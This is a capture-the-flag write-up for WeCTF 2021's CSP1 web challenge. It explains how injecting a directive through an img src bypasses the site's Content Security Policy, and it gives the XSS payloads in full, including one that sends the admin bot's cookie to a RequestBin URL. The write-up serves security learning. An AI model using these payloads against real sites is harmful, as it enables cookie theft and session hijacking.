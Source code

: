 ```yaml
---
title: "WeCTF 2021"
categories: [Writeups]
layout: post 
---
```


# WeCTF 2021

## Team Placing: #117 / 574

This was a Web-only CTF that had some really cool challenges. I wasn't able to play as much as I wanted to, but I did get to struggle with a few challenges and learned a ton from the writeups!

The following writeup is a walkthrough a challenge which involved bypassing the Content Security Policy (CSP) on a website via CSP policy injection, allowing for a Cross-Site-Scripting (XSS) attack, and ultimately the stealing of the cookies of an Admin Bot.

### Solvers: This challenge was a collaborative effort between myself and my teammate, [Dayton Hasty (dayt0n)](https://github.com/dayt0n)
### Challenge: CSP1
### Category: Web 

## Description:

#### Shame on Shou if his web app has XSS vulnerability. More shame on him if he does not know how to use CSP correctly.

#### Hint: Search Content-Security-Policy if you don't know what that is and check your browser console.

## Walkthrough:

Navigating to the provided URL, we're presented with a page that looks like this:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.001.png)

We can provide HTML such as `<h1>This is a test</h1>` and after we hit submit, it will be displayed to us on the next page. However, if we try to insert JavaScript via `<script>` tags, we are blocked by the [`Content Security Policy (CSP)`](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

Since we're given the source code for the site, let's take a look at how the CSP is implemented:

```javascript
@app.route('/display/<token>')
def display(token):
    user_obj = Post.select().where(Post.token == token)
    content = user_obj[-1].content if len(user_obj) > 0 else "Not Found"
    img_urls = [x['src'] for x in bs(content).find_all("img")]
    tmpl = render_template("display.html", content=content)
    resp = make_response(tmpl)
    resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
    return resp
```

From the code it looks like the [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) directive being set to `none` is the cause of our issues. The `script-src` directive specifies valid sources for JavaScript, and it being set to `none` means, as you would expect, there are no valid sources. 

So.. how do we get around this? Well you might notice that there is another directive, `img-src` which is using our input to specify valid sources for images:

```javascript
img_urls = [x['src'] for x in bs(content).find_all("img")]
...
resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
```

So, the code will parse any `<img>` tags for the URL provided in the `src` parameter, and insert those URLs into the CSP. This means that we can perform a [CSP policy injection attack](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#policy-injection)!

Now that we have a good idea of the exploit, let's craft it:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.002.png)

```html
<img src="http://; script-src 'unsafe-inline'"></img>
<script>alert(1)</script>
```

So, because the CSP is simply inputting the "URL" in the `src` parameter into the CSP, we can easily inject a duplicate `script-src` directive, but we will set ours to `unsafe-inline` allowing us to use inline `<script>` tags. And because of the way CSP works, our version of the directive will take precedence.

Let's fire off our test and see if works:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.003.png)

Popped!

Nice, so we've successfully exploited the vulnerability but the flag is actually held in the Admin Bot's cookies. So, let's change our exploit a little bit to allow us to steal his cookie:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.004.png)

```html
<img src="http://; script-src 'unsafe-inline'"></img>
<script>window.location = 'https://requestbin.io/1fy84do1?cookie=' + document.cookie;</script>
```

Great, this exploit will make the Admin Bot navigate to our [RequestBin](https://requestbin.io/) link, with his cookie set as the value of a GET parameter, allowing us to inspect the request and thus see the cookie.

Let's send the final exploit to the Admin Bot, and inspect the RequestBin:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.005.png)

And there's the flag! Pretty cool challenge that highlighted one of the easier ways to get around CSP.

### Flag: we{2bf90f00-f560-4aee-a402-d46490b53541@just_L1k3_<sq1_injEcti0n>}